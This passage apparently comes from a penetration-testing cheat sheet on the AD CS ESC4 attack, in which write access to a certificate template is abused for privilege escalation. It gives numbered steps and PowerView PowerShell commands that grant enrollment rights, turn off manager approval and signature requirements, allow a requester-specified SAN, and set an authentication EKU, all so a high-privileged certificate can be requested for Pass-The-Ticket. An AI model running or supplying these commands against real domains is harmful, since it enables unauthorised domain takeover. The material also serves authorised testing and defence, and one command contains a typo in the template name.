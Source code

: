 ## Access Controls Attacks - ESC4, 5, 7

### ESC4 : Sufficient rights against a template

* [https://github.com/daem0nc0re/Abusing\_Weak\_ACL\_on\_Certificate\_Templates](https://github.com/daem0nc0re/Abusing\_Weak\_ACL\_on\_Certificate\_Templates)
* [https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4)

1. Get Enrollment rights for the vulnerable template
2. Disable `PEND_ALL_REQUESTS` flag in `mspki-enrollment-flag` for disabling Manager Approval
3. Set `mspki-ra-signature` attribute to `0` for disabling Authorized Signature requirement
4. Enable `ENROLLEE_SUPPLIES_SUBJECT` flag in `mspki-certificate-name-flag` for specifying high privileged account name as a SAN
5. Set `mspki-certificate-application-policy` to a certificate purpose for authentication
   * Client Authentication (OID: `1.3.6.1.5.5.7.3.2`)
   * Smart Card Logon (OID: `1.3.6.1.4.1.311.20.2.2`)
   * PKINIT Client Authentication (OID: `1.3.6.1.5.2.3.4`)
   * Any Purpose (OID: `2.5.29.37.0`)
   * No EKU
6. Request a high privileged certificate for authentication and perform Pass-The-Ticket attack

#### Windows

```powershell
# Add Certificate-Enrollment rights
Add-DomainObjectAcl -TargetIdentity templateName -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=contoso,DC=local" -Verbose

# Disabling Manager Approval Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity tempalteName -XOR @{'mspki-enrollment-flag'=2} -Verbose

# Disabling Authorized Signature Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-ra-signature'=0} -Verbose

# Enabling SAN Specification
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -XOR @{'mspki-certificate-name-flag'=1} -Verbose

# Editting Certificate Application Policy Extension
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```

#### Linux

* Quick override and restore
